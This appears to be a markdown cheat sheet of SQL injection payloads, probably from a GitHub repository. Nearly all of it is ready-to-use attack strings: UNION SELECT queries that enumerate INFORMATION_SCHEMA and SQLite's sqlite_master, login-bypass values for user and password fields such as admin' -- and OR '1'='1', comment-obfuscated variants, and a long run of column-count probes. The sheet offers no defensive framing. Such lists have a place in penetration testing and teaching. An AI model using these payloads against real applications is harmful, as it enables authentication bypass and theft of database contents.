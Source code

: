 # SQLi 
#### Command characters are (#, /**/, ;, —)

##### Note: We can use the following code to make it true

    ("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/")

    
..............................................................................

    0+UNION+SELECT+NULL,+COLUMN_NAME,+NULL,+NULL+FROM+INFORMATION_SCHEMA.COLUMNS
    0+UNION+SELECT+NULL,+group_concat(COLUMN_NAME),+NULL,+NULL+FROM+INFORMATION_SCHEMA.COLUMNS
    0+UNION+SELECT+2,3,table_name,4+from+INFORMATION_SCHEMA.tables
    0+UNION+SELECT+2,group_concat(table_name),3,4+from+INFORMATION_SCHEMA.TABLES
    0+UNION+SELECT+2,3,group_concat(table_name),4+from+INFORMATION_SCHEMA.tables+where+table_SCHEMA=database()

..............................................................................
 
    user=admin' ;&pass=a 
    user=admin' --&pass=a
    user=admin' /*&pass=a
    adm'||'in &Pass=' glob '*
    user=ad'||'min'%00&pass=a
    user=1' OR '1'='1%00&pass=a
    user=admin' OR '1'='1';&pass=a
    user=admin' OR '1'='1'--&pass=a
    user=admin' OR '1'='1'/*&pass=a
    user=admin&pass=a'/**/IS/**/NOT/**/'b
    user='admi'||CHAR(' AND pass='-0+110)||''
    user=adm' ||   trim('in', Password: )  || '&pass=a
    user=admin' union select * from users where '1&pass=a
    user=' union select * from users where username in("admin")/*&pass=a
    user=mali'/**/union/**/SELECT/**/*/**/FROM/**/users/**/LIMIT/**/1;&pass=a
    User='/**/union/**/select*from/**/users/**/where/**/username/**/in(char(97,100,109,105,110))/*&pass=a

.....................................................................................
# For SQLi (SQLite)

    'union select sqlite_version() -- -
    123' UNION SELECT 1, sqlite_version(), 3;--
    ' UNION SELECT table_name FROM sqlite_master --
    123' UNION SELECT name, sql, null from sqlite_master;--
    ' UNION SELECT null, sql FROM sqlite_master WHERE type='view' --
    ' UNION SELECT null, sql FROM sqlite_master WHERE type='index' --
    ' UNION SELECT null, sql FROM sqlite_master WHERE type='trigger' --
    ' UNION SELECT null, table_name FROM pragma_table_info('sqlite_master') --
    ' UNION SELECT group_concat(name) FROM sqlite_master WHERE type='table' --
    ' UNION SELECT null, sql FROM sqlite_master WHERE type='view' AND sql NOT NULL --
    ' UNION SELECT sql FROM sqlite_master WHERE type='table' AND name='your_table' --
    ' UNION SELECT null, sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL --
    ' UNION SELECT null, sql FROM sqlite_master WHERE type='index' AND sql NOT NULL --
    ' UNION SELECT null, sql FROM sqlite_master WHERE type='trigger' AND sql NOT NULL --
    ' UNION SELECT null, name FROM pragma_module_list() WHERE name NOT LIKE 'sqlite_%' --
    ' UNION SELECT null, name FROM pragma_function_list() WHERE name NOT LIKE 'sqlite_%' --
    ' UNION SELECT tbl_name FROM sqlite_master WHERE TYPE='table' AND tbl_name NOT LIKE'sqlite_%'
    ' UNION SELECT null, sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name' --
    ' UNION SELECT null, sql FROM sqlite_master WHERE type='table' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' --
    ' UNION SELECT group_concat(sql) FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name' --
    
.....................................................................................................................
    
    ' UNION SELECT NULL --
    ' UNION SELECT 1 --
    ' UNION SELECT 'a' --
    ' UNION SELECT 'a', 'b' --
    ' UNION SELECT 'a', 'b', 'c' --
    ' UNION SELECT 'a', 'b', 'c', 'd' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', '0' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', '0', '1' --
